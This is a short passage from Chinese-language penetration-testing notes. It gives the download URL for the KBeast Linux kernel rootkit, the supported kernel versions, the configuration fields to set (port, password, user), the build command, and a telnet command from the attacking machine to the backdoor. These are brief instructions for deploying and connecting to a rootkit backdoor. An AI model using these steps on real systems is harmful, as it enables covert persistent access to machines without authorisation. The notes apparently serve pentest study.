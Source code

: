 	http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz
	version - 0 : 2.6.18 (RHEL/CentOS 5.x)
          	1 : 2.6.32 (Ubuntu 10.x) [default version]
	修改配置config.h
	安装路径、日志路径、端口、连接密码、连接用户
![image](/assets/Pentest_Note/master/img/574.png)

	./setup build
	攻击机连接
	>telnet 192.168.1.1 13377